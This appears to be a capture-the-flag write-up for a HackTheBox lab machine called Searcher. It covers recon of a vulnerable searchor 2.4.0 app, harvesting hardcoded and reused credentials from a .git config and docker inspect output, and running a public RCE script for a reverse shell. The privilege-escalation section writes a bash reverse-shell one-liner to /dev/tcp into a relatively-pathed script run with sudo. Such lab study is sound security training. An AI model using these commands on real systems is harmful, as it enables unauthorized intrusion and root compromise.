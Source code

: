 # Take Away
- With `.git` folder, it is important to look at `config` file for potential hardcoded credentials.
# Metadata
- Visiting `http://10.10.11.208:80/` will be redirected to `http://searcher.htb`. Within `http://searcher.htb`, one can identify `searchor 2.4.0` is part of the tech stack.![[Pasted image 20240228212836.png]]
	- A quick google will identify `searchor 2.4.0` is vulnerable to `Command Injection`.
- `linpeas` will identify two `git repositories`. One we have access, the other not.  ![[Pasted image 20240301123254.png]]
	- Looking at `/var/www/app/.git/config` file, one can identify a pair of credential `cody:jh1usoih2bkjaspwe92`.![[Pasted image 20240301124057.png]]
- `cody`'s password we identify is reused for local user `svc`. Running `sudo -l` with the password can identify that `svc` can run `/usr/bin/python3 /opt/scripts/system-checkup.py *` as root.![[Pasted image 20240301124416.png]]
	- Running the command reveals that we are provided with a few options with the `.py` file. ![[Pasted image 20240301164537.png]]
	- Running with `docker-ps` will show there are 2 containers running, one is `gitea` and the other is `mysql_db`.![[Pasted image 20240301165023.png]]
	- Running `docker-inspect '{{json .Config}}' mysql_db | jq` as argument will identify 2 more passwords.
		- One is database `root` password: `jI86kGUuj87guWr3RyF`
		- The other as `gitea:yuiu1hoiu4i5ho1uh`
		- ![[Pasted image 20240301165619.png]]
- `linpeas` will identify `gitea.searcher.htb` as one of the virtual host served by apache and is redirected to the docker container `gitea`.![[Pasted image 20240301171103.png]]
	- Navigate to `gitea.searcher.htb/explor/users`, one will find two users `cody` and `administrator`.![[Pasted image 20240301171303.png]]
	- One can identify that the `administrator` account reuses the password from `gitea` user in database. The content of file located at `/opt/scripts` can be found by navigating to `http://gitea.searcher.htb/administrator/script`.
- After analysis of the script `system-checkup.py`, we see that the option `full-checkup` runs a shell script with relative path.![[Pasted image 20240301172140.png]]
# Exploitation
- Download the script from `https://github.com/twisted007/Searchor_2.4.0_RCE_Python`. 
	- Run `python3 searchor-2_4_0_RCE.py searcher.htb 10.10.14.23 443` to receive a reverse shell session as local user `svc`.
# PrivEsc
- Run `echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.6/443 0>&1' > full-checkup.sh;chmod +x full-checkup.sh` at `/home/svc`.  At the same directory run `sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup` to obtain a reverse shell call back as `root`.